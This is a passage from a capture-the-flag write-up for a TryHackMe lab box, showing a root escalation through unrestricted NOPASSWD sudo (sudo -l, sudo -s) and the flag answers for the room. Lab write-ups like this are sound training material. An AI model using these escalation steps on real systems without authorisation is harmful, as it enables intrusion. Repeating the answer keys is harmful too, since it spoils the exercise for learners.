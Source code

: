 ~~~
-rw-r--r-- 1 jsmith jsmith 3515 Nov  5  2016 .bashrc
-rw-r--r-- 1 jsmith jsmith   33 Apr 25 12:21 flag2.txt
-rw-r--r-- 1 jsmith jsmith  675 Nov  5  2016 .profile
jsmith@Securus:~$ cat flag2.txt
THM{Welcome_Home_Wile_E_Coyote!}
~~~

Flag 2: `THM{Welcome_Home_Wile_E_Coyote!}`

# [Task 9] Root

As `jsmith`, we again check for sudo rights (this btw, should be your first action on any box when gaining access to a account)

There are several ways to exploit this rights. Go for it!

## #9.1 - What sudo rights does jsmith have?

Let's check `jsmith`'s privileges:

~~~
jsmith@Securus:~$ sudo -l
sudo -l
Matching Defaults entries for jsmith on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
~~~

`jsmith` can execute any action as sudo.

Answer: `(ALL : ALL) NOPASSWD: ALL`

## #9.2 - Flag 3

~~~
jsmith@Securus:~$ sudo -s
root@Securus:/home/jsmith# cd /root
root@Securus:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Apr 26 04:01 .
drwxr-xr-x 22 root root 4096 Apr 17 09:15 ..
lrwxrwxrwx  1 root root    9 Apr 22 07:04 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   43 Apr 25 08:29 flag3.txt
drwx------  2 root root 4096 Apr 23 02:04 .gnupg
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Apr 17 09:46 .ssh
root@Securus:~# cat flag3.txt
THM{Great_work!_You_pwned_Erit_Securus_1!}
~~~

Flag 3: `THM{Great_work!_You_pwned_Erit_Securus_1!}`
